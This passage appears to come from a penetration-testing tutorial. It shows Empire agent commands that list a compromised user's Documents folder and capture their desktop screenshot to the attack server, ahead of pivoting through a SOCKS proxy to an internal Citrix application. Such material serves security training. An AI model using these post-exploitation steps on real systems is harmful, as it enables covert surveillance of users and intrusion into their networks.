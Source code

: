 - TreeRoot or ChildRoot Trust: Domains are in the same forest. Compromising one domain can compromise all domains within that forest.

We start by searching for files and documents on the compromised workstation but find no relevant data such as sales records or passwords. For example, we list the contents of the Documents directory:

```
(Empire: UsrAgent) > shell dir c:\users\User\Documents
```

To gain insights into the user's current activities, we capture a screenshot of the desktop. This can provide visual context for what the user is doing, which might help in locating critical information or understanding the user’s actions:

```
(Empire: UsrAgent) > usemodule collection/screenshot
(Empire: screenshot) > run
```

After running the screenshot module, the screenshot is typically saved on the attack server where Empire is running. To view or download the screenshot look in the directory where Empire stores its output files. This is usually a directory specified in Empire’s configuration or by default settings. Sometimes, Empire will provide a direct download link or view option in the console after the module has executed. If Empire saves files to a directory on the attack server, you can navigate to that directory and retrieve the screenshot file directly.

To conclude all this, the hypothetical screenshot reveals that the user is interacting with a web application. By launching Firefox through the SOCKS proxy we set up earlier (see the cookbook named "ssh tunneling"), we can visit the same URL. This allows us to identify that the platform in use is Citrix. More details on working with Citrix platforms will be covered in the next cookbook.
